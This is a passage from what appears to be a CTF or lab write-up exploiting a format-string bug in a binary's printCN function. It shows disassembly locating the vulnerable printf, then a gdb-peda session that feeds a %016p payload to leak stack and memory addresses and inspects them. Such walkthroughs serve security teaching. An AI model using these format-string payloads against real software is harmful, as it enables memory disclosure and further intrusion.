 The vulnerable `printf` must be 396 bytes into the function:

```

   0x0000000000001406 <+337>:   call   0x10e0 <strncat@plt>
   0x000000000000140b <+342>:   lea    rax,[rbp-0x80]
   0x000000000000140f <+346>:   mov    rdi,rax            
   0x0000000000001412 <+349>:   call   0x1070 <strlen@plt>
   0x0000000000001417 <+354>:   mov    edx,0x64
   0x000000000000141c <+359>:   sub    rdx,rax       
   0x000000000000141f <+362>:   lea    rax,[rbp-0x80]                        
   0x0000000000001423 <+366>:   lea    rsi,[rip+0x3d35]        # 0x515f <EXT>
   0x000000000000142a <+373>:   mov    rdi,rax             
   0x000000000000142d <+376>:   call   0x10e0 <strncat@plt>
   0x0000000000001432 <+381>:   lea    rax,[rbp-0xf0]
   0x0000000000001439 <+388>:   mov    rdi,rax
   0x000000000000143c <+391>:   mov    eax,0x0            
   0x0000000000001441 <+396>:   call   0x10b0 <printf@plt>
   0x0000000000001446 <+401>:   lea    rax,[rbp-0x80]
   0x000000000000144a <+405>:   mov    rdi,rax           
   0x000000000000144d <+408>:   call   0x14e3 <filePrint>
   0x0000000000001452 <+413>:   cmp    DWORD PTR [rbp-0xfc],0x1
   0x0000000000001459 <+420>:   jne    0x14ad <printCN+504> 

```

I’ll add a break a couple instructions later and run it:

```

gdb-peda$ b *printCN+401
Breakpoint 1 at 0x1446
gdb-peda$ r print %016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p

```

It hits the break point just after printing the results:

```

0x0055555555915f.0x00000000000005.0x000000006e7076.0x00000000000014.0x007fffffffdbf0.           (nil).0x007fffffffe154.0x30252e7036313025.0x363130252e703631.0x2e70363130252e70[!] ERR reading /opt/easyrsa/clients/%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.ovpn!
...[snip]...
Breakpoint 1, 0x0000555555555452 in printCN ()
gdb-peda$

```

I can examine what’s in memory at some of these addresses:

```

gdb-peda$ x/s 0x0055555555915f
0x55555555915f <EXT>:   ".ovpn"
gdb-peda$ x/s 0x007fffffffdbf0
0x7fffffffdbf0: "/opt/easyrsa/clients/%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.ovpn"
gdb-peda$ x/s 0x007fffffffe154
0x7fffffffe154: "%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p"

```
